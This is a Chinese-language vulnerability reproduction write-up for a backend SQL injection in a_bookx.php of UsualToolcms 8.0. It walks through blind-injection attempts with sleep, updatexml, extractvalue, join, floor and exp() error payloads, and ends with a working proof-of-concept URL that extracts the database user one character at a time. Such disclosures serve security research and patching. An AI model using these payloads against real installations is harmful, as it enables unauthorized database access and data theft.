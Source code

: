 UsualToolcms 8.0 a\_bookx.php 后台注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId24.png)

mysqli\_query不支持堆叠，无回显初步构造payload：

    t=move&id[0]=1',(select 1 and sleep(10)),'2

执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in('1',(select 1 and sleep(10)),'2')

能够正确执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in(1,(select 1 and sleep(10)))

因此初步设想以失败告终，\$result返回bool值，True显示咨询删除成功，false则显示咨询删除失败则可以if构造语句，语句判断语句为真则执行一条可执行的语句，假若为假执行一条报错语句即可使result为False的语句

updatexml，if条件真假与否都会报错

![2.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId25.png)

extractvalue，if条件真假与否都会报错

![3.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId26.png)

join报错:`select id from mysql.user a join mysql.user b ，result`返回结果均为true

![4.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId27.png)

floor报错：`SELECT COUNT(*) FROM user GROUP BY FLOOR(RAND(0)*2);`同样返回结果均为true

![5.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId28.png)

exp():
mysql\>=5.5.5会报错;mysql\>=5.5.53，报错不能注出数据，我这里为5.5.53，但是可以用于使语句返回结果为false

![6.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId29.png)

### POC：

    https://www.0-sec.org/demo/cmsadmin/a_bookx.php?t=move&id[0]=1%27)or%20if((substr((select%20user()),1,1))=%27d%27,(select%201),exp(~0));%23

![7.png](./.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
